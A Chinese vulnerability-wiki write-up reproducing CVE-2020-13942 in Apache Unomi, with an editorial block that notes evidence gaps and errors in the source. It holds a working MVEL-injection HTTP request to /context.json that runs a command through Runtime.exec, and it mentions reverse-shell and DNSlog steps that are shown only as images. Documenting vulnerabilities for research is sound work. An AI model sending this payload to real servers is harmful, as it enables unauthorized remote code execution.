





# CVE -2020-13942 (Apache Unomi 远程代码执行漏洞) 复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：context.json可达、受影响版本；文中13942是前一表达式执行修补绕过
- 证据范围：主标题与复现是13942，frontmatter抽到了背景11975，必须纠正且不将两个漏洞强合并。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- ONGl应OGNL；唯一文本payload执行gnome-calculator，后文DNS和反弹命令全在图片或缺失，证据链不连续
- HTTP包Content-Length硬编码、缺Content-Type，需给完整有效请求
- 修复只最新版本/首页，应明确1.5.2对应历史修复
- 订阅推广与多余转码HTML噪声

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fQSRXk9FilS4ImUOH5lvuQ)


CVE -2020-13942 (Apache Unomi 远程代码执行漏洞)

一、漏洞描述：

Apache Unomi 是一个 Java 开源客户数据平台，这是一个 Java 服务器，旨在管理客户，潜在顾客和访问者的数据，并帮助个性化客户体验。Unomi 可用于在非常不同的系统（例如 CMS，CRM，问题跟踪器，本机移动应用程序等）中集成个性化和配置文件管理。

在 Apache Unomi 1.5.1 版本之前，攻击者可以通过精心构造的 MVEL 或 ONGl 表达式来发送恶意请求，使得 Unomi 服务器执行任意代码，漏洞对应编号为 CVE-2020-11975，而 CVE-2020-13942 漏洞是对 CVE-2020-11975 漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，在服务器执行任意代码。

二、影响版本：

Apache Unomi < 1.5.2

三、漏洞复现：

访问页面样式  



POC：

```http
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 486

{
    "filters": [
        {
            "id": "boom",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"gnome-calculator\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "boom"
}
```

```
抓包poc执行：
```



查看 DNSlog 记录：



尝试反弹 shell：  



执行反弹 shell 命令脚本：  

获取 shell



四、修复方案

1、尽可能避免将用户数据放入表达式解释器中。

2、目前厂商已发布最新版本，请受影响用户及时下载并更新至最新版本。官方链接如下：

https://unomi.apache.org/download.html

参考：

https://nosec.org/home/detail/4611.html

http://hnyongxu.com/index/SecurityIncidents/137.html

https://mp.weixin.qq.com/s/GebQxERJCmULLuRVRXsnYQ（阿乐）

https://github.com/lp008/CVE-2020-13942

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！


个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
